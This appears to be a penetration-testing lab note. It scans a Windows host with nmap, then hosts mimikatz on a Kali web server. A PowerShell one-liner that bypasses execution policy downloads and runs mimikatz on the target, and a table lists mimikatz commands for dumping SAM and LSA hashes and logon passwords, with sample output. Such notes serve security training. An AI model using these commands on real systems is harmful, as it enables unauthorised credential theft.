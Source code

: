 ```console
Nmap scan report for 192.168.17.13
Host is up (0.0013s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ssl/ms-wbt-server?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
49670/tcp open  msrpc              Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 3 IP addresses (3 hosts up) scanned in 342.02 seconds
```

# 1. Cached Credential Storage and Retrieval
**On Kali**: Setup web server to host `mimikatz`

```console
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
sudo python3 -m http.server 80 &> /dev/null &
```

**On Target**: Download and run `mimikatz`
- Download: `(New-Object System.Net.WebClient).DownloadFile()`
- Run: `Start-Process`

```console
powershell.exe -NoProfile -ExecutionPolicy Bypass (New-Object System.Net.WebClient).DownloadFile('http://kali.vx/mimikatz.exe', $env:APPDATA + '\mimikatz.exe'); Start-Process $env:APPDATA\mimikatz.exe
```

**On Target**: mimikatz commands
- Ref: <https://tools.thehacker.recipes/mimikatz>

|Command|Function|
|---|---|
|`privilege::debug`|Requests the debug privilege `SeDebugPrivilege`; required to debug and adjust the memory of a process owned by another account|
|`token::elevate`|Impersonates a SYSTEM token (default) or domain admin token (using `/domainadmin`)|
|`lsadump::sam`|Dumps the local Security Account Manager (SAM) NT hashes; operate directly on the target system, or offline with registry hives backups (for SAM and SYSTEM)|
|`lsadump::lsa /patch`|Extracts hashes from memory by asking the LSA server; `/patch` or `/inject` takes place on the fly|
|`sekurlsa::logonpasswords`|Lists all available provider credentials; usually shows recently logged on user and computer credentials|

- ☝️ **Note**: mimikatz needs to run from an elevated shell; running mimikatz from a non-elevated shell will not work:

```console
mimikatz # privilege::debug
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

mimikatz # lsadump::sam
Domain : CLIENT
SysKey : 732c3b24f5f9c476753d4d1bc72961d7
ERROR kull_m_registry_OpenAndQueryWithAlloc ; kull_m_registry_RegOpenKeyEx KO
```